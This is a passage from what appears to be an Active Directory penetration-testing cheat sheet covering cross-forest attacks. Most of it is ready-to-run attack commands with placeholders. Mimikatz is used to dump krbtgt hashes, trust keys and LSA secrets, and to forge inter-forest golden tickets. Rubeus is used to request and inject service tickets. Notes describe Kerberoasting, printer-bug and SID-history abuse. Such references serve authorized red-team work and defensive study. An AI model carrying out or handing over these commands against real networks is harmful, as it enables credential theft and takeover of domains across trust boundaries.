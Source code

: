 ````
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

## Crossforest attacks
### Kerberoast2
#### Enumerate users with SPN cross-forest
```
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName} 
```

#### Request and crack TGS see:
See [Kerberoast](#Kerberoast) 

### Printer bug2
-  It also works across a Two-way forest trust if TGT Delegation is enabled!

#### Check if TGTDelegation is enabled (run on DC)
```
netdom trust <CURRENT FOREST> /domain:<TRUSTED FOREST> /EnableTgtDelegation
```

See [Printer Bug](#Printer-bug) for exploitation

### Trust key2
-  By abusing the trust flow between forests in a two way trust, it is possible to access resources across the forest boundary which are explicity shared with a specific forest.
-  There is no way to enumerate which resources are shared.

#### Dump trust keys
- Look for in trust key from child to parent (first command)
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <COMPUTERNAME>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<CHILD DOMAIN>\<PARENT DOMAIN>$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### Create a intern-forest TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /rc4:<HASH OF TRUST KEY> /service:krbtgt /target:<TARGET FOREST> /sids:<SIDS> /ticket:<KIRBI FILE>"'
```

#### Create and inject TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe asktgs /ticket:<KIRBI FILE> /service:CIFS/<TARGET SERVER> /dc:<TARGET FOREST DC> /ptt
```

#### Check access to server
```
dir \\<SERVER NAME>\<SHARE>\
```

### SID history enabled
- This is fine but why can't we access all resources just like Intra forest?
- SID Filtering is the answer. It filters high privilege SIDs from the SIDHistory of a TGT crossing forest boundary. This means we cannot just go ahead and access resources in the trusting forest as an Enterprise Admin.
- If a external trust has SID history enabled. It is possible to inject a SIDHistory for RID => 1000 (higher then 1000) to access resources accessible to that identity or group in the target trusting forest. Needs to be user created!
````